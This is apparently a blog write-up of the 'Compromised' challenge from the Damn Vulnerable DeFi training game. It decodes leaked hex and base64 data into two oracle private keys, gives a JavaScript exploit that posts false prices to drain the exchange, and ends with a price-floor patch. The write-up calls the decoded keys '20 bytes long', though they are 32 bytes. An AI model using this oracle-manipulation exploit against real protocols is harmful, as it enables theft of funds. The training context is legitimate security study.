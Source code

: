 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Compromised
---
```


## Description
While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

```
          HTTP/2 200 OK
          content-type: text/html
          content-language: en
          vary: Accept-Encoding
          server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters: 0xA73209FB1a42495120166736362A1DfA9F95A105,0xe92401A4d3af5E446d93D11EEc806b1462b39D15 and 0x81A5D6E50C214044bE44cA0CB057fe119097850c.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

## Solution
Oracles are an attack vector, whether we like it or not. By integrating an oracle into our
contract we are TRUSTING that the oracle behaves. If the oracle becomes compromised
then an attacker can use the oracle's bad pricing to manipulate variabels in our contract.

In this challenge, what would happen if we gained access to the trustful oracle's private keys?
We could set any price we want on the exchange and buy those damn valuable nft's for dirt cheap.

Upon seeing the server snippet, my immediate thought is that its a list of private keys. But how do we decode it? What kind of data is it? The first hint is that characters
come in two's and their range is 0-f. This is hex byte data! If we plug the server response into a
hex to utf-8 decoder here's what we get

```
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5

MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

Now this isn't necesarrily obvious, but this output looks like a valid base64 encoded string. I wouldn't expect you to know this unless you've seen base64 encoded strings before. That's what makes this challenge hard. Unless you've seen hex byte data and base64 encodings before, it's unlikely you'd be able to recognized them.

Now if we plug the base64 encoded strings into a base64 decoder we get

```
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

20 bytes long! Those are private keys! It looks like we have the private keys
of 2/3 trusted sources. With a majority, we can take over the oracle's pricing. Here are the steps
to steal the NFTs

1. Using our two trusted source addresses, post a price of 0 to the oracle
2. Buy the NFT
3. Using our two trusted source addresses, post the max price to the oracle
4. Sell the NFT (profits!!!)
5. Using our two trusted source addresses, set the price back to the original price

We can do this all in Javascript

```
it('Exploit', async function () {        
    /** CODE YOUR EXPLOIT HERE */
    // 0xe92401A4d3af5E446d93D11EEc806b1462b39D15
    const trustedSource1 = new ethers.Wallet("0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9", ethers.provider);
    // 0x81A5D6E50C214044bE44cA0CB057fe119097850c
    const trustedSource2 = new ethers.Wallet("0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48", ethers.provider);
    trustedSource2.connect(ethers.provider)

    // Set price to 0 and buy
    await this.oracle.connect(trustedSource1).postPrice("DVNFT", 0);
    await this.oracle.connect(trustedSource2).postPrice("DVNFT", 0);
    await this.exchange.connect(attacker).buyOne({value: ethers.BigNumber.from("1")})

    // Set price to max and sell
    const maxPrice = await ethers.provider.getBalance(this.exchange.address)
    await this.oracle.connect(trustedSource1).postPrice("DVNFT", maxPrice)
    await this.oracle.connect(trustedSource2).postPrice("DVNFT", maxPrice)
    await this.nftToken.connect(attacker).approve(this.exchange.address, "0")
    await this.exchange.connect(attacker).sellOne(ethers.BigNumber.from("0"))

    // Set price back to original
    await this.oracle.connect(trustedSource1).postPrice("DVNFT", INITIAL_NFT_PRICE)
    await this.oracle.connect(trustedSource2).postPrice("DVNFT", INITIAL_NFT_PRICE)
});
```

## Patched Contract
Ideally we shouldn't use oracles at all. But if we must, there are several ways to mitigate against an unexpected change in oracle prices. Notice I say _mitigate_, not _prevent_, because we can never 100% eliminate the trust element in using oracles. Here are two strategies that come to mind
1. Set our own price floor. If the orcale is reporting a price lower than the price floor we'll use the price floor instead.
2. Use the average of the last N reported oracle prices and restrict the exchange to 1 purchase per block. In this scenario an attacker could still drive the price down to 0. But it would take much longer and may give time for the exchange to realize the trusted keys have been compromised.

Here's an example of approach 1. While still exploitable, it reduces the attacker's maximum profits

```
contract ExchangeV2 is ReentrancyGuard {

    using Address for address payable;

    // Minimum price is 10% of the initial price
    uint256 constant MIN_PRICE = 100 ether;

    DamnValuableNFT public immutable token;
    TrustfulOracle public immutable oracle;

    event TokenBought(address indexed buyer, uint256 tokenId, uint256 price);
    event TokenSold(address indexed seller, uint256 tokenId, uint256 price);

    constructor(address oracleAddress) payable {
        token = new DamnValuableNFT();
        oracle = TrustfulOracle(oracleAddress);
    }

    function buyOne() external payable nonReentrant returns (uint256) {
        uint256 amountPaidInWei = msg.value;
        require(amountPaidInWei > 0, "Amount paid must be greater than zero");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = getMinPrice(oracle.getMedianPrice(token.symbol()));
        require(amountPaidInWei >= currentPriceInWei, "Amount paid is not enough");

        uint256 tokenId = token.safeMint(msg.sender);
        
        payable(msg.sender).sendValue(amountPaidInWei - currentPriceInWei);

        emit TokenBought(msg.sender, tokenId, currentPriceInWei);

        return tokenId;
    }

    // The minimum price SHOULD NOT be under MIN_PRICE
    function getMinPrice(uint256 oraclePrice) internal pure returns (uint256) {
        if (oraclePrice < MIN_PRICE)
            return MIN_PRICE;
        return oraclePrice;
    }

    function sellOne(uint256 tokenId) external nonReentrant {
        require(msg.sender == token.ownerOf(tokenId), "Seller must be the owner");
        require(token.getApproved(tokenId) == address(this), "Seller must have approved transfer");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = oracle.getMedianPrice(token.symbol());
        require(address(this).balance >= currentPriceInWei, "Not enough ETH in balance");

        token.transferFrom(msg.sender, address(this), tokenId);
        token.burn(tokenId);
        
        payable(msg.sender).sendValue(currentPriceInWei);

        emit TokenSold(msg.sender, tokenId, currentPriceInWei);
    }

    receive() external payable {}
}
```